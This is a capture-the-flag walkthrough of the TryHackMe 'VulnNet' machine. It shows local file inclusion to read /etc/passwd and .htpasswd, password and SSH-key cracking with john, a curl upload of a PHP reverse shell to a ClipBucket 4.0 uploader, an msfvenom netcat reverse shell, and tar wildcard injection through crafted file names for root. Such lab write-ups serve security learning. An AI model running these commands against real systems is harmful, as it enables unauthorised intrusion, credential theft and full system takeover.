 ```yaml
---
title: "Try Hack Me - VulnNet Walkthrough"
date: 2022-07-26 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, medium, linux, subdomains, LFI, ssh2john, burp]
---
```


# Intro
This is the oldest of the VulnNet boxes on Try Hack Me. It is also rated as a medium difficulty box.

# Recon
First we will scan the host. I will use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

If you have never used it before and would like some explaination, check out this post: [Using AutoRecon](https://knox.technology/posts/using_autorecon/)

VulnNet Home Page:
![](/assets/images/vn01-index.jpg)

## Setup /etc/hosts file
- Looking through the nmap scans we find a domain name: `vulnnet.thm`
![](/assets/images/vn01-domain_name.jpg)
This means we should update our `/etc/hosts` file on our local attack machine with a line that looks like:

`<xx.xx.xx.xx> vulnnet.thm`  Replace the xx.xx.xx.xx wit hthe ip the vulnnet machine is assigned.

- If we look at the dirbuster/feroxbuster results we find 2 .js files.
![](/assets/images/vn01-js-files.jpg)

Let's examine these files for more clues.

## Possible LFI Point
In one file we find a reference to: `http://vulnnet.thm/index.php?referer=`
If we try `http://vulnnet.thm/index.php?referer=/etc/passwd` the page just looks like normal, but if we view source on the page that is returned:
![](/assets/images/vn01-etc-passwd.jpg)

Looks like we have two 'real' users:
```bash
root:x:0:0:root:/root:/bin/bash
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```

## New Subdomain
In the other .js file we find a reference to a subdomain: `broadcast.vulnnet.thm`
We should go back and add that to our line in `/etc/hosts` for VulnNet:

`<xx.xx.xx.xx> vulnnet.thm broadcast.vulnet.thm`  Replace the xx.xx.xx.xx wit hthe ip the vulnnet machine is assigned.

When we go to the site we see that it directs us to log in.
Using burp we verify it is "basic auth"
![](/assets/images/vn01-basic-auth.jpg)

Ok so now let's go back to our LFI - (Local File Inclusion) and check for `/etc/apache2/sites-enabled/000-default.conf`

![](/assets/images/vn01-burp-apache-conf.jpg)

Now lets see if we can view the .htpasswd file.
![](/assets/images/vn01-ba-creds.jpg)
We were able to retrieve a user hash. Let's crack it with `john`

So here is the command I used:
```bash
john --pot=cracked.pot --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- I use the `--pot=<filename>.pot` so that `john` save any cracked passwords in that file, so I don't forget to save them myself!
- The `--wordlist` is the location ofthe wordlist you wish to use. Your `rockyou.txt` might live in a different place than mine.
- And `hash` is just the name of the file I saved the hash we found in.

# ClipBucket?
And now we login to Clip Bucket....what ever that is.
![](/assets/images/vn01-clipbucket.jpg)

Let's see if we can find out what version it is.

Let's view the page source:
![](/assets/images/vn01-cb-version.jpg)
And there it is: ClipBucket version 4.0

## Exploiting ClipBucket

Let's check searchsploit: `searchsploit clipbucket`
![](/assets/images/vn01-ss.jpg)

We can copy the exploit to our current location useing the `-m` (mirror) flag.
`searchsploit -m php/webapps/44250.txt`

Reading through the exploit 44250.txt, it seems to imply that there is a /actions directory on the ClipBucket app.
Let's check it out....
![](/assets/images/vn-01-cb-actions.jpg)

So it looks like if we use this command:

```bash
sudo curl -F "file=@thm-shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:<PASSWORD>
```
We should be able to upload a reverse shell.

DON'T foget to set up your listener! :)

After the file is uploaded check the actions directory and there is a new folder: `CB_BEATS_UPLOAD_DIR` the rev shell file will be in there.

![](/assets/images/vn01-rev-shell.jpg)

# Foothold
## www-data user
First upgrade shell: `python3 -c "import pty;pty.spawn('/bin/bash')"`

First run this to make sure your path and some others things are setup correctly in your shell:
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;export TERM=xterm-256color;alias ll='ls -lah --color=auto'
```

And I created a little one liner to get some quick info on the system.
```bash
echo '----------';which gcc;which cc;which python;which python3;which perl;echo '';which wget;which curl;which nc;echo '';whoami;id;echo '';file /bin/bash;echo '';uname -a;cat /etc/issue;cat /etc/*-release;echo '-----------'
```

Which gets you this:
![](/assets/images/vn01-system-info.jpg)

Next I will use `wget` to copy the `lse.sh` script over to look for privesc options.
[Here is the github repo for LSE](https://github.com/diego-treitos/linux-smart-enumeration)

We discover this file running LSE:

```bash
[!] fst190 Can we read any backup?......................................... yes!
---
-rw-rw-r-- 1 server-management server-management 1484 Jan 24  2021 /var/backups/ssh-backup.tar.gz
```

I wasn't able to extract the `tar` file on the machine, so since we have python3 I fired up a python3 http server with: `python3 -m http.server 8000` to copy the file over.

Extracting the backup file gives us an `id_rsa` file. But it is password protected.

Use `ssh2john id_rsa > id_rsa.hash`

and then use the `john` to crack the newly created hash.

DON'T forget to `chmod 400 id_rsa`

Now we can login through ssh with the `server-management` user.

## server-management user
From this account running LSE reveals a cron running a file we have write access to.
The script the cron runs is in `/var/opt/backupsrv.sh` Examining that file reveals that is making a backup out of all the files in `/home/server-management/Documents` using the "*" wildcard.

You can read about we can use this at [gtfobins](https://gtfobins.github.io/gtfobins/tar/) BTW that site should be on your speed dial!

There is also a great article about exploiting the wildcard [HERE](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

On your local machine: `msfvenom -p cmd/unix/reverse_netcat lhost=<local-ip> lport=<desired-port> R` to get your reverse shell.
Start your listener!

On the target machine navigate to `/home/server-management/Documents`
```bash
echo "YOUR REVERSE SHELL FROM MSFVENOM HERE" > shell.sh
chmod +x shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

And then wait for the cron to run. Your shell should pop up.

Go get that root flag!
